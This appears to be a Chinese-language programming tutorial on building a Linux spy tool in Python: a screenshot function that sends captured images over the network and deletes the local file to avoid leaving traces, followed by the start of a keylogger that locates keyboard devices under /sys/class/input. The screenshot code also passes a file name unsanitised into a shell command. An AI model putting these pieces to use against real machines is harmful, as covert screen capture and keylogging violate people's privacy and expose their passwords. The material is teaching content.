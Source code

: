 # 1 屏幕截图

屏幕截图功能使用了Python调用外部程序技术，常用的库用subprocess、os.system,commands等，在这里我们使用了commands库，等多的用法可以参考 这篇博客。为了让大家对程序理解更深入，请根据注释中的提示完成相应的扩展功能作为练习。代码详情见screenshot.py,该代码可以直接执行。
```
from task import send_pic_task
def screen_shot(file_name='screen_shot', file_type='png'):
    """
    本程序未实现指定图片存储的路径，用户自行实现该扩展功能
    借助os.path.join函数
    """
    print u'3秒过后截图'
    time.sleep(3)
    # 调用外部程序
    # 因为服务端代代码也是运行在本机，如果名字一样。那么os.remove操作可能会导致
    # 在本地看不到效果
    ret = commands.getstatusoutput("scrot " + file_name + 'tmp.' + file_type)
    if ret[0] != 0:
        print u"图片类型不支持，请换用png jpg等常用格式"
        return
    # 读取图像的二进制文件，进行网络传输
    with open(file_name + 'tmp.' + file_type, "rb") as fp:
        send_pic_task(fp.read(), file_name, file_type)
    # 删除scrot生成的图片，作为黑客可不能留下痕迹啊
    os.remove(file_name + 'tmp.' + file_type)
    print u'发送屏幕截图完成'
```
# 2 键盘输入记录功能

主要按照1的流程来分析代码。

## 2.1 找到所有的键盘设备

/dev/input/目录下存在一些字符设备文件，通过对这些文件的读写和控制，

可以访问实际设备，更多资料可以参考这里。为了找到键盘设备，

需要了解linux的虚拟内存文件系统sysfs, 它挂在于/sys目录，它存储了系统内核和

设备驱动的实时信息，我们要找的键盘设备的信息可以在/sys/class/input目录

下找到，通过查看devices/name可以发现，该文件记录了设备的描述信息。更多关于设备文件和虚拟内存文件系统的知识可以参考这里。

在linux终端下执行下列命令(如linux运行在docker环境中无/dev/input目录，如发现/dev/input目录存在，请跳过此实验步骤或者在本地Linux环境下实验)

linux设备文件的知识

通过代码实现筛选键盘设备(代码详见keylogger/keyboard.py):
```
def device_filter(dev_content):
      """ dev_content显示了设备的名称和信息
          这里通过关键字查找的方式来判断该设备是否是键盘设备
      """
      # 如果设备信息出现中出现了keyboard这个关键词，那么就认为是键盘设备
      if "keyboard" in dev_content.lower():
          return True
      return False


  def find_keyboard_devices(device_filter_func):
      """
          找出所有的键盘设备名
      """
      # 切换到/sys/class/input/这个目录下，类似cd命令
      os.chdir(DEVICES_PATH)
```